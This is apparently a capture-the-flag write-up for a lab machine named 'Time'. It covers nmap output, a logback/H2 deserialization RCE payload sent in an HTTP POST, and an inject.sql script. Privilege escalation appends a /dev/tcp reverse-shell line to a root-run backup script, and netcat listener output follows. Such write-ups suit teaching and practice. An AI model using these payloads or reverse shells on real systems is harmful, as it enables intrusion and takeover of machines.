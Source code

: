 ## Time

__Machine IP: 10.10.10.214__
__Difficulty: Easy__

## Scanning

### Nmap scanning

```bash
$ nmap -sC -sV  -oN nmap/time  10.10.10.214
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-13 04:13 EDT
Nmap scan report for 10.10.10.214
Host is up (0.095s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.72 seconds
```


## Enumeration

- Home page

![homepage](images/homepage.PNG)


- on entering wrong input it threw an error
```bash
Validation failed: "ch.qos.logback.core.db.DriverManagerConnectionSource",
```

- on quick serach found an `RCE` based on deserialiaztion

![cve_github](images/cve_github.PNG)


## Exploitation 
- Downlaod the `Github files` 
- modified inject.sql into following

```bash
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.12/9001 0>&1')
```

- Now start the python server
- And now setup the listener and  make the request with following payload.

```php
POST / HTTP/1.1
Host: 10.10.10.214
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 185
Origin: http://10.10.10.214
Connection: close
Referer: http://10.10.10.214/
Upgrade-Insecure-Requests: 1

mode=2&data=[
"ch.qos.logback.core.db.DriverManagerConnectionSource",{
"url": "jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http:\/\/10.10.14.12:80\/inject.sql'"
}]
```

> Make sure to escape '/' otherwise it does'nt execute

__Result__

```bash
$ nc -lvnp  9001
listening on [any] 9001 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.214] 35526
bash: cannot set terminal process group (931): Inappropriate ioctl for device
bash: no job control in this shell
pericles@time:/var/www/html$ whoami
whoami
pericles
pericles@time:/var/www/html$ 
```

## Privilege escalation

- on running `linpeas` found a script, that can be modifiable by our user

![linpeas](images/linpeas.PNG)

```bash
pericles@time:/var/www/html$ cat /usr/bin/timer_backup.sh
cat /usr/bin/timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

- Modified script

```bash
pericles@time:/usr/bin$ echo 'bash -i >& /dev/tcp/10.10.14.12/4242 0>&1' >> timer_backup.sh
< /dev/tcp/10.10.14.12/4242 0>&1' >> timer_backup.sh
pericles@time:/usr/bin$ cat timer_backup.sh
cat timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
bash -i >& /dev/tcp/10.10.14.12/4242 0>&1
pericles@time:/usr/bin$ 
```

__Result__

```bash
─$ nc -lvnp  4242
listening on [any] 4242 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.214] 56054
bash: cannot set terminal process group (42617): Inappropriate ioctl for device
bash: no job control in this shell
root@time:/# cat /root/root.txt
cat /root/root.txt
ef1e7f326561ede1666fe3781ae00ece
root@time:/# exit
```

> Shell exits in few seconds make sure to run netcat and connect to another session
